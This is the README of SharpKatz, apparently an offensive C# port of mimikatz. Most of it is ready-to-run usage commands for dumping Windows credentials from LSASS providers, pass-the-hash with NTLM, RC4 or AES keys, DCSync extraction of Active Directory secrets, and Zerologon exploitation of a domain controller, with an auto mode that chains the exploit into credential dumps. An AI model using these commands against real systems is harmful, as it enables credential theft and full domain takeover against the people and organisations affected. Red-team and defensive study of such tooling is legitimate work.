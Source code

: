 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync commands

## Usage

### Ekeys

```SharpKatz.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

### Msv

```SharpKatz.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

### Kerberos

```SharpKatz.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

### Tspkg

```SharpKatz.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

### Credman

```SharpKatz.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

### WDigest

```SharpKatz.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

### Logonpasswords

```SharpKatz.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

### Pth

```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password<br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --Rc4 rc4key```<br>
Perform pth to create a process under userdomain\username credential user's rc4 key<br>
<br>
```SharpKatz.exe --Command pth --Luid luid --NtlmHash ntlmhash```<br>
Replace ntlm hash for an existing logonsession <br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash --aes256 aes256```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password and aes256 key <br>
<br>

### DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>

### Zerologon

No reference to logoncli.dll, using the direct rpc call works even from a [non-domain joined workstation](https://twitter.com/gentilkiwi/status/1306178689630076929)

```SharpKatz.exe --Command zerologon --Mode check --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon check <br>
<br>
```SharpKatz.exe --Command zerologon --Mode exploit --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon attack <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --User krbtgt --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by username <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --Guid guid --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and ump user credential by GUID <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
Note: Do not use zerologon in a production environment or at least plan for recovery actions which are detailed [here](https://github.com/dirkjanm/CVE-2020-1472) 


## Credits

This project depends entirely on the work of [Benjamin Delpy](https://twitter.com/gentilkiwi) and [Vincent Le Toux](https://twitter.com/mysmartlogon) on [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [MakeMeEnterpriseAdmin](https://raw.githubusercontent.com/vletoux/MakeMeEnterpriseAdmin/master/MakeMeEnterpriseAdmin.ps1) projects.<br>
The analysis of the code was conducted following the example from [this blog post](https://blog.xpnsec.com/exploring-mimikatz-part-1/) by [xpn](https://twitter.com/_xpn_).<br>
<br>

